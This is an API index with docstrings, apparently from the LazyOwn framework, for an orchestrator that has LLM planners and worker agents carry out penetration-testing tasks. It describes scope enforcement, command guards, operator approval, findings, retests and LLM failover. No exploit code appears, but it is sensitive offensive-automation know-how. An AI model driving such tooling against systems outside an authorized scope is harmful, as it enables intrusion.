- `dequeue_next` (line 2587) `def dequeue_next(self)` - *Pop the oldest queued task and mark it running.*
- `_refresh` (line 2598) `def _refresh(self)` - *Reload the registry so concurrent store instances stay coherent.*
- `set_llm_chain` (line 2602) `def set_llm_chain(self, task_id, members, active)` - *Bind a per-task LLM chain with a failover cursor.

Args:
    task_id: Task to bind.
    members: Chain specs (name/model/priority dicts).
    active: Starting member index.

Returns:
    Persisted chain state.

Raises:
    KeyError: Unknown task.*
- `llm_state` (line 2630) `def llm_state(self, task_id)` - *Return the task LLM chain state (empty when unbound).*
- `advance_llm` (line 2636) `def advance_llm(self, task_id)` - *Advance the per-task active member after quota exhaustion.

Args:
    task_id: Task whose chain rotates.

Returns:
    Updated chain state (empty when unbound).*
- `set_skills` (line 2660) `def set_skills(self, task_id, names, auto)` - *Pin skills for prompt injection and optionally toggle auto-match.

Args:
    task_id: Task to update.
    names: Skill names pinned on the record.
    auto: Optional new value for keyword auto-matching.

Returns:
    Dict with the pinned skills and auto flag.

Raises:
    KeyError: Unknown task.*
- `set_deadline` (line 2685) `def set_deadline(self, task_id, timeout_sec)` - *Stamp absolute deadline like the planner deadline coordinator.*
- `expired` (line 2695) `def expired(self, task_id)` - *Report whether task deadline passed.*
- `add_constraint` (line 2701) `def add_constraint(self, task_id, ctype, text, scope)` - *Register allow/deny operation constraint like the planner set_constraints.

Scope selects where the constraint injects: planner, worker or
both (default). Reads take effect immediately each round.*
- `add_scope` (line 2720) `def add_scope(self, task_id, kind, value, reason)` - *Register authorized asset scope like the planner add_task_scope.*
- `steer` (line 2731) `def steer(self, task_id, intent_id, message)` - *Attach mid-run correction to a running intent like steer_work.*
- `kill` (line 2740) `def kill(self, task_id, intent_id)` - *Flag a running intent for termination like kill_work.*
- `steer_for` (line 2751) `def steer_for(self, task_id, intent_id)` - *Return pending steer message for intent if any.*
- `clear_steer` (line 2756) `def clear_steer(self, task_id, intent_id)` - *Drop the pending steer message for an intent after delivery.*
- `killed` (line 2769) `def killed(self, task_id, intent_id)` - *Report whether intent was flagged for termination.*
- `__init__` (line 2936) `def __init__(self, task_id, assets, graph, activity, store)` - *Bind planner to task collaborators.*
- `_constraints` (line 2947) `def _constraints(self)` - *Return task constraints visible to the planner.*
- `_denied` (line 2956) `def _denied(self, text)` - *Return matching deny constraint text or empty string.*
- `plan` (line 2964) `def plan(self, triggers)` - *Emit 0..N intents from current situation; most wakeups emit zero.

Faithful to Lazy planner: stall-guard forces at least one intent
when goals are unmet and nothing is open/running; goalless tasks
never enter the planner; deny constraints block candidates;
the tool catalog gates intent/goal writing per agent lane.*
- `refine` (line 3043) `def refine(self)` - *Re-plan pending intents against fresh outcomes, like plan refinement.

Runs after :meth:`plan` every round: drops duplicate pending intents,
settles intents covered by terminal work on the same assets, blocks
intents hit by new deny constraints, and caps pending overflow by
lowest priority. Every transition is emitted so the operator and
the dataset see what the re-plan changed.

Returns:
    Counts by refine action (dupe, covered, denied, capped).*
- `_origin_fact` (line 3116) `def _origin_fact(self)` - *Return origin fact id, creating it once.*
- `_candidates` (line 3125) `def _candidates(self)` - *Build candidate intents from serial todos, hints, coverage, findings.*
- `finalize` (line 3259) `def finalize(self, reason)` - *Final planner round: park open intents and record the wrap-up.

Port of the timeout wrap-up round: nothing new is dispatched,
every open/pending/running intent is parked as stopped so the
frontier is clean, and the reason lands in the activity stream
for the audit trail.*
- `_delta_sink` (line 3275) `def _delta_sink(self)` - *Return a throttled delta reporter for the planner activity log.*
- `_llm_candidates` (line 3289) `def _llm_candidates(self, existing)` - *Ask the configured LLM chain for extra intents; empty without members.*
- `_stall_intent` (line 3347) `def _stall_intent(self, existing)` - *Force one forward intent when exploration stalled like the planner.

Fires only when goals are unmet and no intent is open/running.
Prefers an untested scoped asset, else re-drives the most recent
done intent with a new mechanism, else a scoped baseline probe.*
- `__init__` (line 3376) `def __init__(self, name, task_id, assets, graph, activity, traffic, guard, store, shell, ephemeral)` - *Bind worker to task collaborators.

Args:
    name: Worker identity used in every activity line.
    task_id: Task the worker serves.
    assets: Asset graph shared with the engine.
    graph: Exploration graph shared with the engine.
    activity: Activity log for the task.
    traffic: Traffic log for the task.
    guard: Command guard for the task.
    store: Task store for pause/kill/budget signals.
    shell: Optional live shell handle for steering.
    ephemeral: When True the worker closes its shell and
        unregisters itself in ``_finish`` (one-shot use). Pool
        workers pass False and live until ``close()``.*
- `rebind` (line 3421) `def rebind(self, assets, graph, activity, traffic, guard, store, shell)` - *Point a pooled worker at the collaborators of the current round.

Long-lived workers keep identity and shell sessions across rounds;
each round hands them freshly loaded graph/log views so a stale
in-memory generation never leaks between rounds.*
- `close` (line 3445) `def close(self)` - *Release the worker's shell session and shutdown registration.*
- `_scope_allows_target` (line 3456) `def _scope_allows_target(self, target)` - *Enforce explicit scope: targets outside scope are blocked.*
- `_prior_steps` (line 3485) `def _prior_steps(self, intent)` - *Return commands already executed for this intent plus a transcript.

Resume parity: a re-claimed intent (pause/cancel/re-drive) must
continue where it stopped, not repeat finished tool calls.*
- `execute` (line 3509) `def execute(self, intent, executor, timeout_sec)` - *Run one intent to completion and write facts back.*
- `_finish` (line 3707) `def _finish(self, intent, outcome, transcripts, worker_tools, skipped_tools)` - *Shared closing: writeback, state and coverage for both paths.*
- `_target_for` (line 3772) `def _target_for(self, intent)` - *Resolve concrete target for scope enforcement.*
- `_guard_step` (line 3780) `def _guard_step(self, intent, command, executor, budget, intercept, retry_state)` - *One command through scope → deny → preflight → guard → ask → run.

Shared by the deterministic step loop and the agentic tool runner
so both take the exact same safety path and audit trail.

Returns:
    ``(output, status, detail)`` where status is ``ok`` with the
    command output, ``blocked`` with the reason, or ``skipped``
    with the missing binary name.*
- `_agent_checkpoint` (line 3962) `def _agent_checkpoint(self, intent)` - *Return the stop reason for the agent loop, or empty to continue.*
- `_drain_steer` (line 3977) `def _drain_steer(self, intent)` - *Return and clear a pending operator steer as a model message.*
- `_agent_preflight` (line 3988) `def _agent_preflight(self, intent, command)` - *Guard preflight for agent side channels; empty when allowed.

Background jobs and persistent-shell commands must pass the same
scope, deny-constraint, binary and guard checks as foreground
steps; returns the refusal text or an empty string.*
- `_start_background_job` (line 4021) `def _start_background_job(self, command, intent, transcripts)` - *Launch one guarded command as a tracked background job.

Returns the model-facing acknowledgment with the job id. The
output stays queryable through the job_status/job_output tools
and is folded into the intent transcript once finished.*
- `_open_shell_session` (line 4053) `def _open_shell_session(self, intent)` - *Start a persistent bash session for the agentic loop.*
- `_send_shell` (line 4088) `def _send_shell(self, command, intent, timeout_sec)` - *Run one guarded command inside the persistent shell session.*
- `_close_shell_session` (line 4124) `def _close_shell_session(self)` - *Terminate the persistent shell session, if any.*
- `_agent_tools` (line 4151) `def _agent_tools(self, intent, executor, transcripts, budget, intercept, retry_state)` - *Tool specs handed to the agentic worker (guard-enforced).*
- `_agent_system_prompt` (line 4332) `def _agent_system_prompt(self, intent)` - *Invariant agent contract: goal, intent, scope, constraints, rules.*
- `_agentic_try` (line 4364) `def _agentic_try(self, intent, outcome, transcripts, executor, budget, intercept, retry_state)` - *Run the intent through a real tool-calling agent when configured.

Returns True when the agentic path executed (successfully or
not); False falls back to the deterministic step loop.*
- `_denied` (line 4462) `def _denied(self, command)` - *Return matching worker-scope deny constraint text or empty string.*
- `_auto_approve` (line 4473) `def _auto_approve(self, command)` - *Auto-approve read-only probes, hold the rest for approval.*
- `_missing_tool` (line 4485) `def _missing_tool(self, command)` - *Return the binary a probe needs but the host lacks, else ''.

Automation verbs run through the shell and their tooling was
already gated by the registry, so only raw bash probes are
preflighted here.*
- `_run` (line 4501) `def _run(self, command, executor)` - *Execute command through injected executor or LazyOwn runner.*
- `_with_llm_steps` (line 4551) `def _with_llm_steps(self, intent, steps, prior_text)` - *Prefix pool-suggested commands while keeping the deterministic fallback.*
- `_llm_steps` (line 4562) `def _llm_steps(self, intent, prior_text)` - *Ask the pool for up to three concrete next commands for this intent.

Suggestions are filtered before execution: denied by config,
missing binaries and out-of-scope hosts never reach the loop.*
- `_settle_partial` (line 4644) `def _settle_partial(self, intent, transcripts, reason)` - *Bounded LLM wrap-up turning partial work into one fact.

Port of the settlement phase: when budget cuts an agent mid-run
the model gets one last bounded turn to write back what it
learned. Without a pool the deterministic transcript fact from
``_writeback`` still lands, so this never blocks progress.*
- `_delta_sink` (line 4680) `def _delta_sink(self, intent_id)` - *Return a throttled callback that reports model deltas.

Deltas arrive per token; the activity log gets at most one line
per second with the cumulative character count so a long reply
stays visible without flooding the trace.*
- `_resolved_command` (line 4704) `def _resolved_command(self, command)` - *Expand the first-token shell alias so checks see through it.*
- `_sudo_guard` (line 4718) `def _sudo_guard(self, intent, command)` - *Skip sudo commands when passwordless sudo is unavailable.

Returns (True, "") when the command may run; (False, refusal)
when it must be skipped before executing, so no INFO panel,
sudo error or post-tool failure ever reaches the operator.*
- `_task_executed_commands` (line 4745) `def _task_executed_commands(self)` - *Commands already executed anywhere in this task.

The LLM planner sometimes re-proposes a verb (``lazynmap``,
``auto_pwn``) under a new intent. Replaying a finished command
adds no information, so pooled steps are filtered against the
task's whole tool history, not only the current intent.*
- `_sanitize_step` (line 4768) `def _sanitize_step(self, intent, command)` - *Retarget foreign hosts and repair target-less network commands.

The planner LLM sometimes proposes commands that mention its
training data (``nmap.org``) or forget the target entirely
(``nmap -p 75``). Both are wrong against a real engagement: the
step is rewritten to hit the intent target, or reduced to the
target alone when nothing usable remains.*
- `_command_in_scope` (line 4822) `def _command_in_scope(self, command)` - *Return True when every host a command mentions is in scope.*
- `_auto_bind_body_hits` (line 4831) `def _auto_bind_body_hits(self, finding, seed)` - *Bind recorder exchanges whose bodies match the finding evidence.

Two distinctive tokens from the evidence drive a proxy body
search; hits already ingested into the task traffic log are
attached as supporting evidence, so a finding carries the actual
request/response pair and not just the command line.*
- `_steps_for` (line 4883) `def _steps_for(self, intent)` - *Translate intent summary into real probe commands.*
- `_writeback` (line 4943) `def _writeback(self, intent, transcripts, allow_finding)` - *Write one aggregated fact plus assets/findings atomically with dedupe.*
- `__init__` (line 5071) `def __init__(self, graph, activity, traffic)` - *Bind retester to task collaborators.*
- `retest` (line 5077) `def retest(self, finding_id, executor, note)` - *Re-execute finding evidence to reproduced/fixed/inconclusive.

Faithful to the reference retester: minimal targeted replay of the stored
PoC, inconclusive when the environment blocks a decision (auth, WAF,
unreachable, thin evidence) — one failed request never proves fixed.*
- `retest_context` (line 5147) `def retest_context(self, finding_id)` - *Return finding + PoC + assets + constraints like get_finding_retest_context.*
- `__init__` (line 5169) `def __init__(self, graph, activity)` - *Bind compactor to task graph.*
- `_cold_path` (line 5174) `def _cold_path(self)` - *Resolve per-task cold bookkeeping path.*
- `_load_cold` (line 5178) `def _load_cold(self)` - *Load round counter, stamps and last run.*
- `_save_cold` (line 5182) `def _save_cold(self, payload)` - *Persist cold bookkeeping.*
- `_bodies_path` (line 5186) `def _bodies_path(self)` - *Resolve the background-compressed digest body cache path.*
- `_load_bodies` (line 5190) `def _load_bodies(self)` - *Load compressed digest bodies keyed by block signature.*
- `_save_bodies` (line 5194) `def _save_bodies(self, payload)` - *Persist compressed digest bodies.*
- `_request_bodies` (line 5198) `def _request_bodies(self, blocks, cold)` - *Generate compressed digest bodies in a background thread.

Port of the background compaction pass: only the body cache file
is written by the worker, so graph mutation stays in the planner
round and can never race with workers writing facts. A real
cooldown keeps one LLM pass per minute per task, and the
in-flight guard stops overlapping runs.*
- `_noa_archive` (line 5247) `def _noa_archive(self, signature, members, anchors)` - *Archive raw member transcripts for one digest (NOA parity).

Enabled by ``noa_compaction`` in payload.json (default off). The
archive keeps exactly what the digest folded so the context can be
re-expanded or audited without the lossy body.

Returns:
    Relative archive name, or empty string when disabled.*
- `noa_archives` (line 5279) `def noa_archives(self, limit)` - *List NOA raw archives for this task (newest first).*
- `_apply_stored_bodies` (line 5304) `def _apply_stored_bodies(self, bodies)` - *Refresh digest texts with compressed bodies from the cache.

The background worker only writes the body cache; applying it to
the graph happens here, inside the planner round, so concurrent
workers never race the compactor. Runs on quiet rounds too.*
- `_is_live_intent` (line 5328) `def _is_live_intent(self, node)` - *Report whether node keeps its chain hot.*
- `_foldable` (line 5332) `def _foldable(self, node)` - *Report whether node may fold, digests never fold.*
- `hot_set` (line 5338) `def hot_set(self)` - *Compute hot nodes by reverse reachability from live intents.*
- `structural_cold` (line 5360) `def structural_cold(self, hot)` - *Return foldable non-hot nodes before debounce.*
- `_content_versions` (line 5364) `def _content_versions(self)` - *Derive content versions from text hashes.*
- `_block_signature` (line 5372) `def _block_signature(self, members, anchors, versions)` - *Hash sorted member and anchor ids with versions.*
- `_group` (line 5381) `def _group(self, eligible)` - *Partition eligible nodes into foldable blocks.*
- `covered_members` (line 5445) `def covered_members(self)` - *Return node ids already folded under active digests.*
- `on_planner_round` (line 5457) `def on_planner_round(self)` - *Advance round, maintain stamps, trigger background compaction.*
- `compact` (line 5498) `def compact(self, threshold, mode, debounce_sec)` - *Fold cold facts into digests like coldgraph minor/major.

Minor folds only uncovered eligible nodes, major re-derives all
eligible groupings and reuses unchanged bodies by signature.
Time-old nodes without stamps stay eligible for backward
compatibility, fresh nodes inside the debounce window stay hot.*
- `expand` (line 5625) `def expand(self, digest_id, role)` - *Restore digest members like expandDigest.*
- `cold_index` (line 5649) `def cold_index(self)` - *Group active digests by anchored asset.*
- `unfolded` (line 5667) `def unfolded(self, limit)` - *Return cold facts unfolded up to cap with a truncated flag.

Restores the un-nerfed view: the operator sees real cold members
(not just digest counts); ``truncated`` tells whether the cap hid
the tail.*
- `digest_overview` (line 5683) `def digest_overview(self)` - *Digest index: every digest with expandable members plus cold index.

``expandable`` lists digests that still hold exhausted members
(revivable via expand); ``covered`` counts cold facts already
folded under a digest (lineage coverage).*
- `__init__` (line 5885) `def __init__(self, task_id, graph, activity, store)` - *Bind service to task collaborators.*
- `report` (line 5892) `def report(self, name, summary, poc, severity, vulnclass, intent_id, asset_ids, traffic_refs)` - *Register a finding with severity/evidence/dedupe like report_finding.*
- `_drafts_ready_path` (line 5956) `def _drafts_ready_path(self)` - *Resolve the background draft result cache path.*
- `_draft_report` (line 5960) `def _draft_report(self, node)` - *Reporter turn: draft the finding report (agent parity).

With ``REPORTER_BACKGROUND_ENABLED`` the LLM call runs in a
background thread and the result is committed on the next round
by :meth:`apply_drafts` (same liveness pattern as compaction).
Otherwise the draft is computed synchronously. Without a pool
both paths are no-ops and the human workflow is unchanged.*
- `_reporter_reply` (line 6015) `def _reporter_reply(self, pool, chain, entry)` - *Run the bounded reporter completion and return the markdown.*
- `_write_draft` (line 6031) `def _write_draft(self, finding_id, report, evidence_version)` - *Commit one reporter draft onto its finding node.*
- `apply_drafts` (line 6049) `def apply_drafts(self)` - *Commit finished background reporter drafts onto their findings.

Called once per planner round; only drafts whose evidence
version still matches the finding are applied, so an updated
finding never inherits a stale report.*
- `set_status` (line 6086) `def set_status(self, finding_id, status)` - *Transition finding status like the workflow disposition.*
- `update_report` (line 6103) `def update_report(self, finding_id, report)` - *Write the narrative report and bump the evidence version.

Args:
    finding_id: Finding node id.
    report: Markdown report body.

Returns:
    New evidence version, or 0 when the finding is unknown/empty.*
- `ranked` (line 6125) `def ranked(self)` - *Findings ordered critical-first like the Markdown renderer.*
- `__init__` (line 6135) `def __init__(self, task_id)` - *Bind vault to task.*
- `_load` (line 6140) `def _load(self)` - *Load vault payload.*
- `add` (line 6144) `def add(self, finding_id, kind, body)` - *Attach evidence to a finding and return the record.*
- `verify` (line 6161) `def verify(self)` - *Return ids whose body fails the sha256 integrity check.*
- `gc` (line 6170) `def gc(self, valid_findings)` - *Drop evidence for findings no longer present; returns removed.*
- `for_finding` (line 6186) `def for_finding(self, finding_id)` - *Return evidence attached to one finding.*
- `read` (line 6190) `def read(self, evidence_id, offset, length)` - *Read one evidence body in bounded byte ranges.

Port of the ranged evidence download: large PoCs and captured
bodies are served in chunks so a report or an operator can page
through them without loading everything at once.

Args:
    evidence_id: Evidence record id.
    offset: Byte offset to start from (clamped to >= 0).
    length: Maximum bytes returned (clamped to 1..8192).

Returns:
    Dict with id, finding_id, kind, sha256, total, offset,
    length and chunk.

Raises:
    KeyError: Unknown evidence id.*
- `export` (line 6227) `def export(self, path)` - *Dump vault to a file for the report pipeline.*
- `__init__` (line 6238) `def __init__(self, store)` - *Bind optional channel config from task store.*
- `channels` (line 6242) `def channels(self)` - *Return configured channels (empty = log only).*
- `add_channel` (line 6250) `def add_channel(self, kind, target, min_severity, extra)` - *Register a channel: log|webhook|file|slack|email with severity floor.

Args:
    kind: Channel type.
    target: URL, file path, ``smtp-host:port`` or log label.
    min_severity: Skip events below this severity.
    extra: Optional email/slack fields (to, from_addr, user,
        password, tls).

Returns:
    Stored channel dict.

Raises:
    ValueError: Unknown channel kind.*
- `remove_channel` (line 6297) `def remove_channel(self, index)` - *Remove one channel by its 1-based list position.*
- `_send_email` (line 6310) `def _send_email(channel, line, event)` - *Deliver one notification over SMTP; False on missing target.*
- `emit` (line 6348) `def emit(self, task_id, event, data)` - *Fan out finding/status/task events; returns deliveries.

Channels: log (always), webhook, slack (text payload), file and
email (SMTP with optional STARTTLS/login).*
- `__init__` (line 6404) `def __init__(self, task_id)` - *Bind trigger table (global when task_id empty).*
- `_load` (line 6409) `def _load(self)` - *Load trigger payload.*
- `add` (line 6413) `def add(self, kind, arg, every_sec)` - *Register a trigger; interval needs every_sec, events fire on new rows.*
- `remove` (line 6432) `def remove(self, trigger_id)` - *Delete a trigger.*
- `list` (line 6442) `def list(self)` - *Return all triggers.*
- `ensure_service_trigger` (line 6446) `def ensure_service_trigger(self)` - *Register the catalog trigger once so services fire the loop.

The trigger is what turns ``lazyaddons`` / ``tools`` service
metadata into an orchestrator event: whenever a new service
asset lands, the next round fires with the matching addon and
tool names attached.*
- `due` (line 6459) `def due(self, task_id, graph, activity, assets, store)` - *Evaluate triggers like the scheduler tick; fires at most once each.

The ``service`` and ``task_create`` kinds need the asset graph /
task store: pass them to enable those events, the rest stay
graph/activity driven.*
- `__init__` (line 6566) `def __init__(self)` - *Load member list and usage ledger paths.*
- `_seed_defaults` (line 6577) `def _seed_defaults(self)` - *Persist the default legs once so operators can edit/remove them.

Pools seeded before a new default leg ships are backfilled by
name, so existing operators gain the leg without losing edits.*
- `members` (line 6601) `def members(self)` - *Return configured chain in order, seeding defaults on first use.*
- `add_member` (line 6606) `def add_member(self, name, model, priority)` - *Append a chain member backed by llm_factory at call time.*
- `remove_member` (line 6615) `def remove_member(self, name)` - *Drop a chain member.*
- `set_priority` (line 6625) `def set_priority(self, name, priority)` - *Change one member's failover rank, keeping the rest untouched.*
- `usage` (line 6638) `def usage(self)` - *Return per-member call ledger like llm_usage.*
- `_record` (line 6642) `def _record(self, member, ok, text)` - *Append one ledger row like llmrec capture.*
- `_rotated_chain` (line 6648) `def _rotated_chain(self, chain)` - *Round-robin equal-priority members with a persisted cursor.

Layer 1 of the failover policy: a rank tie must not pin the same
head forever. The cursor lives in ``llm_pool.json`` so rotation
continues across processes.*
- `_reorder_with_ai` (line 6677) `def _reorder_with_ai(self, chain, live_log)` - *Move the MoE/RL preferred member first when learning is on.

The router proposes an expert for the task; the RL policy picks
among the available member names. Both are stage-gated inside the
bridge, so with learning disabled the chain is returned as-is.*
- `_record_ai_outcome` (line 6717) `def _record_ai_outcome(self, member, ok, live_log)` - *Feed one member outcome to the MoE store and the RL trainer.*
- `complete` (line 6730) `def complete(self, prompt, max_tokens, empty_retries, members, task_id, on_delta)` - *Fail over across members; empty string when no backend answers.

A model that connects yet yields nothing gets ``empty_retries``
bounded replays before the pool moves on: a completed call with
no produced content answers the same question as an empty turn,
only the verdict differs. Misses and empties feed the shared
health registry, so a dead head is cooled down, not hammered.

Args:
    prompt: User prompt text.
    max_tokens: Response cap.
    empty_retries: Bounded replays for empty turns.
    members: Optional chain override (per-task chain).
    task_id: When set, the task's persisted chain drives member
        order and explicit quota exhaustion advances its cursor.

Returns:
    Response text, empty when every member failed.*
- `health` (line 6895) `def health(self)` - *Return per-member health state for lazy_llm health.*
- `context_budget` (line 6906) `def context_budget(self)` - *Return the prompt context character budget (default 2000).*
- `record_raw` (line 6911) `def record_raw(self)` - *Return whether raw prompt/response recording is enabled.*
- `set_record_raw` (line 6916) `def set_record_raw(self, enabled)` - *Toggle raw prompt/response recording in the pool ledger.*
- `raw_entries` (line 6923) `def raw_entries(self, limit)` - *Return the most recent raw LLM exchanges.*
- `_record_raw` (line 6937) `def _record_raw(self, member, prompt, reply, ok)` - *Append one raw exchange when recording is enabled.*
- `set_context_budget` (line 6954) `def set_context_budget(self, chars)` - *Persist the prompt context character budget.

Args:
    chars: Budget clamped to 200..20000 characters.

Returns:
    The stored budget.*
- `__init__` (line 6972) `def __init__(self)` - *Load binding table.*
- `_load` (line 6976) `def _load(self)` - *Load catalog payload.*
- `bindings` (line 6989) `def bindings(self, agent)` - *Return bindings for one agent or the whole table.*
- `bind` (line 6994) `def bind(self, agent, tool)` - *Opt a tool into an agent lane.*
- `unbind` (line 7003) `def unbind(self, agent, tool)` - *Remove a tool from an agent lane.*
- `ask` (line 7023) `def ask(self, task_id, question, pool, session)` - *Answer from graph overview + recent trace within a char budget.*
- `history` (line 7069) `def history(self, task_id, session, limit)` - *Return persisted side exchanges, optionally one session only.*
- `sessions` (line 7077) `def sessions(self, task_id)` - *Return side-question session names for a task.*
- `__init__` (line 7090) `def __init__(self)` - *Load company table.*
- `_load` (line 7094) `def _load(self)` - *Load company payload.*
- `add` (line 7098) `def add(self, name, scope)` - *Register a company with an optional scope pattern.*
- `list` (line 7107) `def list(self)` - *Return companies with asset counts.*
- `match` (line 7111) `def match(self, value)` - *Return companies whose scope substring hits the value.*
- `save` (line 7120) `def save(self, task_id)` - *Snapshot task record + graph + activity tail into one archive.*
- `list` (line 7141) `def list(self)` - *Return archive snapshots with task + node counts.*
- `restore` (line 7163) `def restore(self, path)` - *Restore one archive as a NEW task; returns the new task id.

Nodes, edges, anchors, scope and constraints all come back, so a
restored task keeps the exact exploration structure and
authorization surface of the archived one (nothing is dropped).*
- `stats` (line 7230) `def stats(self)` - *Aggregate counts across archives like archive aggregate stats.*
- `__init__` (line 7239) `def __init__(self)` - *Bind template table.*
- `_load` (line 7243) `def _load(self)` - *Load template payload.*
- `list` (line 7247) `def list(self)` - *Return all templates.*
- `add` (line 7251) `def add(self, name, goal)` - *Register a template; names are unique (overwrite on clash).*
- `remove` (line 7261) `def remove(self, name)` - *Delete a template by name.*
- `get` (line 7271) `def get(self, name)` - *Return one template by name or None.*
- `__init__` (line 7282) `def __init__(self, store)` - *Bind optional task store.*
- `set` (line 7287) `def set(self, task_id, category)` - *Label a task; returns the mapping.*
- `get` (line 7294) `def get(self, task_id)` - *Return the category for a task or empty string.*
- `list` (line 7298) `def list(self, category)` - *Return task->category rows, optionally filtered.*
- `say` (line 7313) `def say(self, task_id, text, pool, session)` - *Append a human turn and answer from task context; returns both.*
- `log` (line 7356) `def log(self, task_id, limit, session)` - *Return recent conversation turns, optionally one session only.*
- `sessions` (line 7372) `def sessions(self, task_id)` - *Return session names active in a task.*
- `clear` (line 7381) `def clear(self, task_id, session)` - *Drop one session's turns, or the whole log when session is empty.*
- `__init__` (line 7436) `def __init__(self, shell)` - *Load shared stores.*
- `bind_shell` (line 7462) `def bind_shell(self, shell)` - *Attach the live shell so workers route auto/addon verbs via it.*
- `ensure_target` (line 7466) `def ensure_target(self, task_id, target, reason)` - *Register scope + asset for target like lazy_scope/lazy_asset.*
- `orchestrate` (line 7493) `def orchestrate(self, goal, task_id, target, max_rounds, workers, timeout_sec, executor)` - *Single entry for lazy_loop + auto_loop: create, scope, run, report.*
- `_parts` (line 7516) `def _parts(self, task_id)` - *Build per-task collaborators.*
- `create_task` (line 7521) `def create_task(self, goal, description)` - *Create task, decompose goals, register scope, return summary.*
- `spawn_task` (line 7550) `def spawn_task(self, goal, source_task_ids, description)` - *Create a task read-only inheriting assets and findings.

Scope rules copy over verbatim and each source finding lands as
a fact stamped with its origin, so the child reads everything
without ever mutating the parents.*
- `list_tasks` (line 7600) `def list_tasks(self)` - *Fleet view: every task with live intent/fact/finding counters.

Cross-task parity with the orchestration list_tasks tool: one
call yields the operator view of the whole campaign without
touching each task's store by hand.*
- `pause_task` (line 7628) `def pause_task(self, task_id, reason)` - *Pause another task from here (cross-task control).*
- `resume_task` (line 7639) `def resume_task(self, task_id)` - *Resume a paused task from here (cross-task control).*
- `task_graph` (line 7649) `def task_graph(self, task_id)` - *Graph overview of another task (get_task_graph parity).*
- `task_findings` (line 7655) `def task_findings(self, task_id)` - *Findings of another task with severity, status and report size.*
- `task_traces` (line 7674) `def task_traces(self, task_id, query, limit)` - *Worker traces of another task, keyword-filtered when asked.*
- `task_node_detail` (line 7683) `def task_node_detail(self, task_id, node_id)` - *Full node view of another task (get_task_node_detail parity).*
- `update_finding_report` (line 7689) `def update_finding_report(self, task_id, finding_id, report)` - *Write the narrative report of another task's finding.*
- `broadcast_events` (line 7701) `def broadcast_events(self, task_id, cursor, batch)` - *Return activity records after a line cursor (SSE resume parity).

The cursor is a 0-based line index over the task activity JSONL,
which only ever appends, so an SSE client that reconnects with
``id``/``cursor`` resumes exactly where it stopped.

Args:
    task_id: Task whose activity stream is read.
    cursor: Line index to resume from (0 = beginning).
    batch: Maximum records returned per call.

Returns:
    Dict with ``items``, the next ``cursor`` and current ``total``.*
- `add_hint` (line 7734) `def add_hint(self, task_id, text)` - *Inject human steering hint read by the next planner round.

Beyond the hint node, records an explicit planner trigger naming
the new hint so the round is visibly fired by it instead of
leaving the planner to discover the hint inside the overview.*
- `add_intent` (line 7752) `def add_intent(self, task_id, summary, asset_ids, parent_ids, priority)` - *Directly inject high-priority intent like the planner main-agent add_intent.*
- `set_goals` (line 7777) `def set_goals(self, task_id, specs)` - *Replace/append decomposed objectives like set_goals; wakes the task.*
- `edit_goal` (line 7794) `def edit_goal(self, task_id, goal_id, text)` - *Edit a goal node like the goals manager.*
- `delete_goal` (line 7806) `def delete_goal(self, task_id, goal_id)` - *Delete a goal node; done tasks with no goals left stay done.*
- `preview_delete_intent` (line 7817) `def preview_delete_intent(self, task_id, intent_id)` - *Estimate hard-delete cascade without mutating anything.

Args:
    task_id: Task owning the intent.
    intent_id: Intent node id.

Returns:
    Dict with intent_id, removable ids, shared (kept) ids.*
- `delete_intent` (line 7840) `def delete_intent(self, task_id, intent_id, mode, reason)` - *Delete an intent in soft (fake) or hard (true) mode.

Soft keeps the node and all outputs/lineage, marking it deleted
with the reason. Hard physically removes the intent plus its
exclusively-owned descendants, keeps shared nodes and goals,
archives the usage snapshot by date and notifies the planner
to replan without it.

Args:
    task_id: Task owning the intent.
    intent_id: Intent node id.
    mode: ``soft`` (default) or ``hard``.
    reason: Operator reason (required).

Returns:
    Dict with mode, intent_id, removed/shared ids and reason.*
- `_intent_subtree` (line 7949) `def _intent_subtree(self, graph, intent_id)` - *Return intent plus exclusive descendants along yields/derived_from/spawns.*
- `_split_exclusive` (line 7964) `def _split_exclusive(self, graph, reachable)` - *Split reachable ids into exclusive (removable) vs shared (kept).*
- `pause_intent` (line 7985) `def pause_intent(self, task_id, intent_id)` - *Pause a runnable intent like the lazy worker interrupt.

Only pending/open/running intents pause; the worker picks the
intent back up via resume or a direct operator message.

Args:
    task_id: Task owning the intent.
    intent_id: Intent node id.

Returns:
    True when the intent moved to paused.*
- `resume_intent` (line 8010) `def resume_intent(self, task_id, intent_id)` - *Resume a paused intent back to the claimable queue.

Args:
    task_id: Task owning the intent.
    intent_id: Intent node id.

Returns:
    True when the intent moved back to open.*
- `send_worker_message` (line 8033) `def send_worker_message(self, task_id, intent_id, message, request_id)` - *Continue a paused worker intent with a human message.

Mirrors the lazy sendWorkerMessage flow within the synchronous
engine: the message lands in the activity trace as the next
worker turn input, the intent reopens for the next round, and
the planner gets an explicit trigger naming it.

Args:
    task_id: Task owning the intent.
    intent_id: Paused intent node id.
    message: Operator message (1..4000 chars, required).
    request_id: Idempotency key (1..128 chars, optional).

Returns:
    Dict with intent_id, state and request_id.*
- `goal_met` (line 8081) `def goal_met(self, task_id, reason)` - *Declare the whole task complete like goal_met (weighted, audited).*
- `record_fact` (line 8091) `def record_fact(self, task_id, text, evidence, intent_id)` - *Operator-visible fact write like recordFact.*
- `record_verdict` (line 8098) `def record_verdict(self, task_id, finding_id, verdict, note)` - *Record an operator retest verdict on one finding.

Args:
    task_id: Task owning the finding.
    finding_id: Finding node id.
    verdict: One of ``reproduced``, ``fixed``, ``inconclusive``.
    note: Optional evidence note.

Returns:
    Dict with finding_id and the stored verdict.

Raises:
    KeyError: Unknown finding id.
    ValueError: Unsupported verdict.*
- `_sync_intel` (line 8139) `def _sync_intel(self, task_id, activity, force)` - *Fuse loop artefacts into world model, findings and objectives.

Runs the bidirectional bridge (``modules.lazy_bridge.sync_all``):
facts and services flow into ``sessions/world_model.json``,
findings into the campaign lifecycle, traffic into the recorder
index and tasks to the C2 board. Throttled so long runs do not
re-mirror every round; forced at terminal status.*
- `run_round` (line 8183) `def run_round(self, task_id, workers, executor, pool)` - *Run one orchestrated round invoking every subsystem in order.

Single path, no parallel loops: scope-check, enrich, triggers/scheduler,
planner (constraint-gated, LLM-assisted), frontier claim, worker tools
(guard+intercept+traffic), finding report, retest, goals, compaction
minor/major, evidence/traffic archive, notify fan-out.*
- `_drain_triggers` (line 8432) `def _drain_triggers(self, task_id, graph)` - *Build planner triggers from activity after scheduler watermark.*
- `_auto_enrich` (line 8481) `def _auto_enrich(self, task_id, graph, activity, limit)` - *Enrich untested scoped assets and record facts for the planner.*
